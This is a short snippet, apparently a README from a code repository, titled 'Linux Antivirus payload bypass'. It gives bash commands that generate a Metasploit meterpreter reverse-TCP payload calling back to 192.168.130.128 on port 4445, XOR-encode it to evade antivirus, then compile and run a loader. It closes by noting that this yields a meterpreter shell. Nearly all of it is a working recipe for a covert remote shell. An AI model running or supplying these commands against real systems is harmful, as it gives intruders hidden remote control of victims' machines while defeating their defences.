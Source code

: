 # Linux Antivirus payload bypass
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.130.128 LPORT=4445 -f raw > linux.bin
python3 xorenc.py linux.bin
gcc -o lin.out lin.c
./lin.out
```
The payload will execute and we get a meterpreter shell
